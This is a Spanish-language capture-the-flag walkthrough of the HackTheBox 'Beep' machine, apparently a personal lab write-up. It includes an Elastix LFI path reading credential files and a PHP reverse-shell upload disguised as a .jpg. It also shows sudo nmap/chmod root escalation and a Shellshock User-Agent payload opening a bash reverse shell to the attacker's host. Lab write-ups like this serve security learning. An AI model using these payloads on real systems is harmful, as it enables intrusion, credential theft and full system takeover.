# Beep

## Reconocimiento

Empezamos comprobando que tengamos conexion con la maquina enviando un traza con el protocolo **ICMP**

```shell
> ping -c 1 10.10.10.7
PING 10.10.10.7 (10.10.10.7) 56(84) bytes of data.
64 bytes from 10.10.10.7: icmp_seq=1 ttl=127 time=59.9 ms

--- 10.10.10.7 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 59.943/59.943/59.943/0.000 ms
```

Vemos que nos responde entonces vamos a escanear todo el rango de puertos que tenga abiertos la maquina

```shell
> nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.7

PORT      STATE SERVICE          REASON
22/tcp    open  ssh              syn-ack ttl 63
25/tcp    open  smtp             syn-ack ttl 63
80/tcp    open  http             syn-ack ttl 63
110/tcp   open  pop3             syn-ack ttl 63
111/tcp   open  rpcbind          syn-ack ttl 63
143/tcp   open  imap             syn-ack ttl 63
443/tcp   open  https            syn-ack ttl 63
878/tcp   open  unknown          syn-ack ttl 63
993/tcp   open  imaps            syn-ack ttl 63
995/tcp   open  pop3s            syn-ack ttl 63
3306/tcp  open  mysql            syn-ack ttl 63
4190/tcp  open  sieve            syn-ack ttl 63
4445/tcp  open  upnotifyp        syn-ack ttl 63
4559/tcp  open  hylafax          syn-ack ttl 63
5038/tcp  open  unknown          syn-ack ttl 63
10000/tcp open  snet-sensor-mgmt syn-ack ttl 63
```

Y con esos puertos vamos a scripts básicos de reconocimiento y escanear versiones

```shell
nmap -sCV -p22,25,80,110,111,143,443,878,993,995,3306,4190,4445,4559,5038,10000 10.10.10.7 

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: AUTH-RESP-CODE UIDL EXPIRE(NEVER) RESP-CODES STLS PIPELINING IMPLEMENTATION(Cyrus POP3 server v2) TOP APOP USER LOGIN-DELAY(0)
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: Completed UNSELECT IDLE BINARY X-NETSCAPE CATENATE THREAD=REFERENCES SORT=MODSEQ LISTEXT STARTTLS IMAP4rev1 URLAUTHA0001 LITERAL+ CONDSTORE ACL MAILBOX-REFERRALS LIST-SUBSCRIBED THREAD=ORDEREDSUBJECT ATOMIC ANNOTATEMORE IMAP4 RENAME ID UIDPLUS OK NO RIGHTS=kxte NAMESPACE CHILDREN QUOTA SORT MULTIAPPEND
443/tcp   open  ssl/https?
|_ssl-date: 2021-04-09T21:11:22+00:00; -2s from scanner time.
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
878/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: -2s
```

### Puerto 80 (https)

Vamos a usar **whatweb** que actúa como el **wappalayzer** para enumerar que tecnologías usa por detrás versiones etc..

```shell
> whatweb http://10.10.10.7
http://10.10.10.7 [302 Found] Apache[2.2.3], Country[RESERVED][ZZ], HTTPServer[CentOS][Apache/2.2.3 (CentOS)], IP[10.10.10.7], RedirectLocation[https://10.10.10.7/], Title[302 Found]
ERROR Opening: https://10.10.10.7/ - SSL_connect returned=1 errno=0 state=error: dh key too small
> whatweb https://10.10.10.7
ERROR Opening: https://10.10.10.7 - SSL_connect returned=1 errno=0 state=error: dh key too small
```

* Si sale este error

<figure><figcaption></figcaption></figure>

En `about:config` Le das al botón de la derecha donde esta **security.tls.version.enable-deprecated** --> **True**

<figure><figcaption></figcaption></figure>

* Ya funcionaria

<figure><figcaption></figcaption></figure>

#### Explotación

Buscamos con **searchsploit** vulnerabilidades que tenga `elastix` y vamos a probar el del **local file inclusion** que significa leer archivos de la maquina

```shell
> searchsploit elastix
-------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                            |  Path
-------------------------------------------------------------------------- ---------------------------------
Elastix - 'page' Cross-Site Scripting                                     | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities                   | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities             | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion                          | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                                         | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                                        | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                    | php/webapps/18650.py
-------------------------------------------------------------------------- ---------------------------------
```

Según el script de perl hay una ruta donde se puede hacer el **local file inclusion**

```perl
> searchsploit -x php/webapps/37637.pl | grep "LFI Exploit"
#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

Vemos que hay credenciales de admin

<figure><figcaption></figcaption></figure>

Vamos a probarlo en el panel de login

Usuario: **admin**\
Contraseña: **jEhdIekWmdjE**

<figure><figcaption></figcaption></figure>

Y estamos dentro ahora lo que falta es como a partir de aquí conseguir ejecucion remota de comandos

* Vamos a settings --> Communication Templates --> Company Details

<figure><figcaption></figcaption></figure>

Vemos que hay una imagen y parece que podemos subir archivos .jpg con eso podemos aprovecharnos para subir un archivo que nos envie una reverse shell

* Creamos un archivo **rs.php.jpg** para enviarnos una reverse shell

```php
<?php system("bash -c 'bash -i >& /dev/tcp/<tu-ip>/<tu-puerto> 0>&1'") ?>
```

* Nos ponemos en escucha con netcat por el puerto indicado

```shell
> nc -lvnp <puerto>
```

* Lo subimos y le damos a **save**

<figure><figcaption></figcaption></figure>

* Y estariamos dentro

```shell
> nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.7] 58284
bash: no job control in this shell
bash-3.2$ whoami
asterisk
```

#### Escalada de Privilegios

Ahora nos falta escalar de privilegios a root

* sudo -l

```shell
bash-3.2$ sudo -l

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
```

Cuando hacemos sudo -l vemos que podemos ejecutar varios binarios como root y vemos que podemos ejecutar **nmap**, **chmod** entre otros como **root** sin contraseña entonces ya estaría echo podemos hacerlo desde **nmap** o con **chmod** vamos a ver las dos

* escalar privigelios con nmap

```shell
bash-3.2$ whoami 
asterisk
bash-3.2$ sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> ! bash -p
bash-3.2# whoami 
root
```

* escalar privigelios con chmod

```shell
bash-3.2$ sudo chmod +s /bin/bash # Asignamos el permiso suid a las bash
bash-3.2$ bash -p # Lanzamos bash y el paramatro -p es de privilege para lanzar-lo con privilegios
bash-3.2# id
uid=100(asterisk) gid=101(asterisk) euid=0(root) egid=0(root) groups=101(asterisk)
bash-3.2# whoami
root
```

### Puerto 10000 (https)

Vamos a usar **whatweb** que actúa como el **wappalayzer** para enumerar que tecnologias usa por detrás versiones etc..

```shell
> whatweb https://10.10.10.7:10000
https://10.10.10.7:10000 [200 OK] Cookies[testing], Country[RESERVED][ZZ], HTTPServer[MiniServ/1.570], IP[10.10.10.7], Script[text/javascript], Title[Login to Webmin]
```

Entramos al servicio web y vemos que es un login de webmin

<figure><figcaption></figcaption></figure>

Vemos que en la url vemos que es un archivo .cgi, como la maquina es bastante vieja podemos abusar de la vulnerabilidad `shellshock`.

Shellshock es una vulnerabilidad asociada al `CVE-2014-6271` que salió el 24 de septiembre de 2014 y afecta a la shell de Linux “Bash” hasta la versión 4.3. Esta vulnerabilidad permite una ejecución arbitraria de comandos.

### Explotación Shellshock

* Habilitamos el foxyproxy

<figure><figcaption></figcaption></figure>

* Interceptamos la petición con burpsuite dandole al enter en la url

<div>

<figure><figcaption></figcaption></figure>

 

<figure><figcaption></figcaption></figure>

</div>

* Nos ponemos en escucha con netcat para recibir la reverse shell

```shell
> nc -lvnp <puerto>
```

* Mandamos la petición al repeater con control + R y en el User-Agent ponemos lo siguiente para enviarnos una reverse shell

```shell
User-Agent: () { :; }; bash -i >& /dev/tcp/<tu-ip>/<puerto> 0>&1
```

* Le damos a **send** para enviar la **reverse shell**

<figure><figcaption></figcaption></figure>

* Recibimos la **reverse shell** y estaríamos dentro como **root**

```shell
> nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.7] 37081
bash: no job control in this shell
[root@beep webmin]# whoami
root
```
